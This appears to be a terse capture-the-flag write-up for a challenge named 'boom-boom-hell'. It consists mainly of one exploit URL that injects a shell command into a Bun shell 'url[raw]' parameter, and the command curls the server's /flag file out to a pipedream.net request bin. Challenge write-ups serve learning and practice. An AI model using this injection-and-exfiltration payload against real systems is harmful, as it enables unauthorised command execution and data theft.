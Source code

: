 ## boom-boom-hell

[Bun shell](https://bun.sh/docs/runtime/shell)

![reference](image.png)

`http://34.146.180.210:3000/chall?url[raw]=$(curl%20https://enllwt2ugqrt.x.pipedream.net/%20-F=@/flag)`